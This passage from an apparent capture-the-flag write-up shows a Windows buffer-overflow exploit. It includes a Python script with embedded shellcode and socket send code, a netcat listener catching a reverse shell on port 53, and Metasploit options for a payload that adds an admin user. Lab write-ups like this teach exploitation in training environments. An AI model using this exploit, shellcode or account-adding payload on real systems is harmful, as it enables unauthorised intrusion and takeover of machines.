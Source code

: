 ```python
"\x6c\x90\x34\xeb\x07\x6b\xdf\x1e\xde\x3e\x39\x77\xdc\xc0\x45"
"\xb2\x69\x26\x2f\xac\x3f\xf1\xd8\x55\x1a\x89\x79\x99\xb0\xf4"
"\xba\x11\x37\x09\x74\xd2\x32\x19\xe1\x12\x09\x43\xa4\x2d\xa7"
"\xeb\x2a\xbf\x2c\xeb\x25\xdc\xfa\xbc\x62\x12\xf3\x28\x9f\x0d"
"\xad\x4e\x62\xcb\x96\xca\xb9\x28\x18\xd3\x4c\x14\x3e\xc3\x88"
"\x95\x7a\xb7\x44\xc0\xd4\x61\x23\xba\x96\xdb\xfd\x11\x71\x8b"
"\x78\x5a\x42\xcd\x84\xb7\x34\x31\x34\x6e\x01\x4e\xf9\xe6\x85"
"\x37\xe7\x96\x6a\xe2\xa3\xb7\x88\x26\xde\x5f\x15\xa3\x63\x02"
"\xa6\x1e\xa7\x3b\x25\xaa\x58\xb8\x35\xdf\x5d\x84\xf1\x0c\x2c"
"\x95\x97\x32\x83\x96\xbd")

buffer = overflow + retn + padding + payload

# build a happy little message followed by a newline
buf = ""
buf += buffer
buf += "\n"


# send the happy little message down the socket
s.send(buf)

# print out what we send
print "Sent: {0}".format(buf)

# receive some data from the socket
data = s.recv(1024)

# print out what we received
print "Received: {0}".format(data)

```

I start a listener on port 53 and run the exploit to get a callback

```
└─$ sudo nc -lvnp 53
listening on [any] 53 ...
connect to [10.6.77.38] from (UNKNOWN) [10.10.100.55] 49238
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop>

```


Since the prompt was talking about firewalls, lets see if I can add a user instead of dealing with firewalls.

```bash
msf6 payload(windows/adduser) > show options

Module options (payload/windows/adduser):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CUSTOM                     no        Custom group name to be used instead of default
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   PASS      Metasploit$1     yes       The password for this user
   USER      metasploit       yes       The username to create
   WMIC      false            yes       Use WMIC on the target to resolve administrators group

```
